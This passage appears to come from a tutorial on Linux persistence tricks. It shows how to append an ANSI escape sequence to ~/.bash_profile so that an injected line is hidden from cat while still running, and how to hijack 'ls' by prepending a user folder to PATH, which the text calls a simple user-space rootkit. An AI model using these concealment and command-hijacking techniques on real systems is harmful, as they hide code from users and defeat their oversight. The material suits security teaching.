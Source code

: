 Now, lets add the following escape sequence:

```bash
$  printf '#\033[1A\033[2K' >> ~/.bash_profile
$ cat ~./bash_profile
(...)
$
```

So what does that escape sequence does?

* First we start with a `#`. That is a comment for bash, so the script won't produce and error when executed.
* Then we find the first part of the sequence `\033[1A` which means that we want to move the cursor one line up (Note that `\033` is an octal value, remember those `0` at the left of the number, that represents the ESC ASCII code.)
* Then `\033[2K` means that we want to delete the entire line from the beginning

You can find a complete list of ANSI escape codes [here](https://en.wikipedia.org/wiki/ANSI_escape_code#CSI_(Control_Sequence_Introducer)_sequences).

So, whenever the terminal prints that line, will move the cursor one line up and delete that line... which is actually the previous line we added executing our code. Try to check the file with `cat` or `more` and the line will not be shown, but if you run the script it will indeed be executed.

## Other options
In addition to directly execute our program we can also try to either, get our program executed indirectly or cheat the user to execute it without noticing that, if you prefer. A way to do this is modifying the `PATH` variable adding as the first search folder one of our choice. Yes, the shell will look for binaries in the folders stored on `PATH` in order. Let's see how would this work.

```bash
$ mkdir ~/bin
$ echo "PATH=~/bin:$PATH" >> ~/.bash_profile
$ cd bin
$ cat << EOM >> ls
> #/bin/bash
> echo "I am malware"
> /bin/ls $@
> EOM
$ chmod +x ls
--- In a new session ---
$ ls ~/bin
I am malware
ls
$
```

_Note:A new session is required in order to process the modification on `.bash_profile`._

This is actually the simplest form of user space rootkit. In this case we are just showing a message but in the general case we can have some code checking the path passed as parameter and if it is the one where the malware is stored we just don't show it. Anyhow, as you can see, the fake `ls` just do its thing (showing a message here) and then calls the original `ls` at `/bin/ls`.... if you do not do that you go into an infinite loop showing the message "I am malware".
